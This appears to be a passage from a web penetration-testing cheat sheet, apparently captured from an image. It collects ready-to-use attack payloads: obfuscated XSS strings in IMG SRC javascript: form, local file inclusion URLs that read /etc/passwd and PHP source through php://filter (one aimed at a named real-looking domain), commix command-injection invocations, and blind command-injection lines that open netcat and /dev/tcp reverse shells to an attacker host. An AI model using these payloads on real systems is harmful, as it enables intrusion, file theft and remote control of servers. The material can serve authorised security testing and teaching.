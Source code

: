 <IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}



> **Local File Include**

{% highlight bash %}
#Automated Tool
fimap -u 'http://website/?p=file.html'

#Test for Local File Include
http://website/?p=file%3a%2f%2f%2fetc%2fpasswd

#Grab data
http://website/?p=php://filter/convert.base64-encode/resource=/etc/php/7.0/apache2/php.ini
http://utilities.snrt.io/?p=php://filter/convert.base64-encode/resource=index.php

#Rebuild Base64 file (e.g.,executable)
base64 -d extractedBase64File > executable2
curl -s "http://localhost/ex1.php?page=php://filter/convert.base64-encode/resource=index" | base64 -d

{% endhighlight %}

> **Command Injection**
{% highlight bash %}
#Commix Automated Tool
commix --level=3 --url="http://website/?arg=INJECT_HERE&arg2=argument" 
python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"


#Test Strings
test`pwd`
test$(pwd)
test; pwd
test | pwd
test && pwd
{% endhighlight %}

> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 

#Sleep method
http://ci.example.org/blind.php?address=127.0.0.1 && sleep 10
{% endhighlight %}
